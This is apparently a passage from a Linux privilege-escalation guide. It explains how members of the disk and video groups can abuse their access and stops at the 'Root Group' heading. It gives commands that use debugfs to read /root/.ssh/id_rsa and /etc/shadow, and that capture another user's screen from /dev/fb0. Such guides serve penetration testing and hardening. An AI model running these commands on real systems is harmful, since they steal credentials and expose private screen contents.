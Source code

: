 ## Disk Group

This privilege is almost equivalent to root access as you can access all the data inside of the machine.

Files:`/dev/sd[a-z][1-9]`

```
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

Note that using debugfs you can also write files. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt` you can do:

```
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```

However, if you try to write files owned by root (like `/etc/shadow` or `/etc/passwd`) you will have a "Permission denied" error.

## Video Group

Using the command `w` you can find who is logged on the system and it will show an output like the following one:

```
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```

The tty1 means that the user yossi is logged physically to a terminal on the machine.

The video group has access to view the screen output. Basically you can observe the the screens. In order to do that you need to grab the current image on the screen in raw data and get the resolution that the screen is using. The screen data can be saved in `/dev/fb0` and you could find the resolution of this screen on `/sys/class/graphics/fb0/virtual_size`

```
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

To open the raw image you can use GIMP, select the **`screen.raw` ** file and select as file type Raw image data:

Then modify the Width and Height to the ones used on the screen and check different Image Types (and select the one that shows better the screen):

## Root Group

